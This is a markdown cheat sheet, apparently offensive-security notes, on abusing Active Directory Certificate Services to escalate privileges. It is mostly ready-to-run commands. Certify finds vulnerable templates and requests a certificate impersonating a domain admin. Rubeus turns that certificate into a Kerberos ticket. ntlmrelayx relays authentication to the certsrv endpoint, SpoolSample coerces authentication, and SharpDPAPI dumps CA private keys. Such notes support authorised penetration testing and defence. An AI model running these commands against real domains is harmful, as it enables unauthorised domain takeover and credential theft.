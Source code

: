 ````
- AD CS certificate templates are provided by Microsoft as a starting point for distributing certificates.  They are designed to be duplicated and configured for specific needs.  Misconfigurations within these templates can be abused for privilege escalation.

#### Find misconfigured certificate templates
- Look for ```Client Authentication``` set and who has ```Enrollment Rights``` and if ```Authorization Signatures Required``` is enabled.
- This configuration allows any domain user to request a certificate for any other domain user (including a domain admin), and use it to authenticate to the domain
```
.\Certify.exe find /vulnerable
```

#### Request certificate for a user
- For example domain admin
```
.\Certify.exe request /ca:<CA NAME> /template:<TEMPLATE> /altname:<USERNAME>
```
- Save cert + key in a cert.pem file

#### Transform cert to pfx
- Set a password, password
```
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

#### Rubeus ask TGT using the certificate
```
cat cert.pfx | base64 -w 0
.\Rubeus.exe asktgt /user:<USERNAME> /certificate:<BASE64 CERT> /password:password /aes256 /nowrap
```

#### Write TGT kirbi
```
[System.IO.File]::WriteAllBytes("C:\Users\public\<USER>.kirbi", [System.Convert]::FromBase64String("<TICKET STRING>"))
```
 
#### Then load TGT and request TGS or access systems as this user.

### Relaying to ADCS HTTP Endpoints
- AD CS services support HTTP enrolment methods and even includes a GUI.  This endpoint is usually found at http[s]://<hostname>/certsrv, and by default supports NTLM and Negotiate authentication methods.

#### Start ntlmrelayx.py
```
ntlmrelayx.py -t http://10.10.15.75/certsrv/certfnsh.asp -smb2support --adcs --no-http-server
```
 
#### Force authentication
```
.\SpoolSample.exe <IP> <IP>
```
 
#### Ouput should give a TGT which can be used with S4U2self
- LINK TO S4U2self
 
### Forged Certificates
#### Dump the private keys
- Execute on the CA server. You can generally tell this is the private CA key because the Issuer and Subject are both set to the distinguished name of the CA.
- https://github.com/GhostPack/SharpDPAPI
```
.\SharpDPAPI.exe certificates /machine
````